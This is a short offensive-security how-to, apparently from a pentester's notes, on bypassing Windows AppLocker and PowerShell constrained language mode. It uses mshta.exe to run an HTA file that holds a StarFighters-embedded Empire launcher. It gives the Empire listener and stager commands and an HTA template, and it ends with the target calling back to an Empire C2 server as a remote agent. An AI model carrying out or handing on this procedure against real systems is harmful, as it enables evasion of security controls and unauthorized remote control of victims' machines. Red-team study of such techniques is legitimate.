

# Bypassing Applocker and Powershell contstrained language mode

There will be environments where Applocker severely restricts which commands can be run on a system. That means no binaries that are not signed by Microsoft. Usually this means an environment where you basically have access to certain whitelisted applications like Internet explorer and notepad. This means getting a shell will be hard.

There could also be the restriction of Powershell constrained language mode too, which prevents you from running anything Powershell related. That means no Powershell scripts can be executed either.

However, both these features can be bypassed using a technique known as abusing mshta.exe, which is a binary used for executing html applications and it's typically installed along Internet Explorer.

A machine with some level of user access is of course a prequisite for this to work. The goal of this is to get a shell through an Empire agent. The only caveat of this technique is that it requires .NET framework 3.5 feature to be enabled to work .NET framework 3.5 feature is something that is not enabled by default in Windows 10 on a clean install.

We want to abuse the fact that we can launch mshta files, which is basically

Set up an Empire listener and generate a base64 encoded launcher. Copy the launcher when done

```text
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

Now use StarFighter whic is JavaScript and VBScript Based Empire Launcher, which runs within their own embedded PowerShell Host. This means you don't have to rely on powershell.exe from the target, which you can't execute because of the restrictions set.

[https://github.com/Cn33liz/StarFighters](https://github.com/Cn33liz/StarFighters)

Paste the Empire launcher into the vbs or js where indicated. Name the file with .hta as extension.

```text
<body onclick="if(confirm('Close? (onclick)')){self.close();}">
<h1>Test Page</h1>
<script language="VBScript">
StarVighter.vbs contents go here with copypasted powershell
</script>
</body>
```

Then get the file on the box, right click on it, select Open with-&gt; Microsoft \(R\) HTML Application host and it should immediately launch and you should get an agent in Empire.



**Useful links** [https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/](https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/) [https://github.com/api0cradle/UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList) [http://cn33liz.blogspot.no/2016/05/bypassing-amsi-using-powershell-5-dll.html](http://cn33liz.blogspot.no/2016/05/bypassing-amsi-using-powershell-5-dll.html)

